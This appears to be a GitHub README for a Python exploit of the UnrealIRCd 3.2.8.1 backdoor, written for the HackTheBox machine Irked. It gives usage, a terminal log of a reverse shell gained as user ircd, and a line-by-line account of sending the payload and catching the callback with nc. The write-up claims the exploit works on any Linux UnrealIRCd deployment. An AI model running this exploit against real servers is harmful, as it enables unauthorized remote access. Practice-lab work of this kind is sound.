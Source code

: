 ## Description

Exploit an [UnrealIRCd server](https://www.unrealircd.org/). Version 3.2.8.1 contains a backdoor which can provide RCE. There's already a [Metasploit exploit module](https://www.rapid7.com/db/modules/exploit/unix/irc/unreal_ircd_3281_backdoor) for the vulnerability, but it's a customized backdoor script.

Developed this script for [Irked from HackTheBox](https://www.hackthebox.eu/home/machines/profile/163), it should be generic to any UnrealIRCd deployment on Linux, provided that a mkfifo reverse shell works on the target.

## Usage

### exploit.py

Call the python script with four arguments to identify the target ip and port, and the callback ip and port you want to use. Then, wait and get a shell:

```
root@kali# ./unreal_3.2.8.1_exploit.py 10.10.10.117 8067 10.10.14.14 4444
[*] Connecting to 10.10.10.117:6697
[*] Sending payload
[+] Payload sent. Closing socket.
[*] Opening listener. Callback should come within a minute
bash: cannot set terminal process group (634): Inappropriate ioctl for device
bash: no job control in this shell
ircd@irked:~/Unreal3.2$ id
id
uid=1001(ircd) gid=1001(ircd) groups=1001(ircd)
```

![image](https://github.com/h4md153v63n/Python_Scripts/assets/5091265/e9aca050-8c04-4fc1-afff-dd6daaaf6ca5)

**Here's what it does:**
+ Checks for right number of args and set variables, or prints usage. [Lines 7-11]
+ Connects to the host, gets first message from host. [13-20]
+ Sends payload and closes socket. [22-25]
+ Uses subprocess to run a nc listener, waits for callback, and then lets me interact with it until ctrl-c to exit. [27-33]


### exploit2.py

![image](https://github.com/h4md153v63n/Python_Scripts/assets/5091265/87096377-57e4-49e0-81fd-35715d6e623e)

![image](https://github.com/h4md153v63n/Python_Scripts/assets/5091265/82bf9133-a611-4540-8ae8-0c309ed8ba92)


## References:
- https://0xdf.gitlab.io/2019/04/27/htb-irked.html#script-it
- https://gitlab.com/0xdf/ctfscripts/-/tree/master/unreal_irc_3.2.8.1_shell.py
